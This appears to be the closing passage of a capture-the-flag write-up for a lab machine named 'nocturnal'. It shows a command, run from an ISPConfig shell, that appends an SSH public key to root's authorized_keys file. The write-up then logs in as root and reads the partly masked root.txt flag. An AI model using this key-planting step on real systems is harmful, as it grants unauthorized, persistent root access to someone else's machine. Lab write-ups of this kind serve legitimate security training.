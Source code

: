 `ispconfig-shell# echo "ssh-rsa aaaab3nza..." >> /root/.ssh/authorized_keys`

just login as root!

`ssh -i persist root@nocturnal.htb`

```
root@nocturnal:~#
```

and grab the root.txt

```
root@nocturnal:~# cat root.txt
24afa2*********************
```

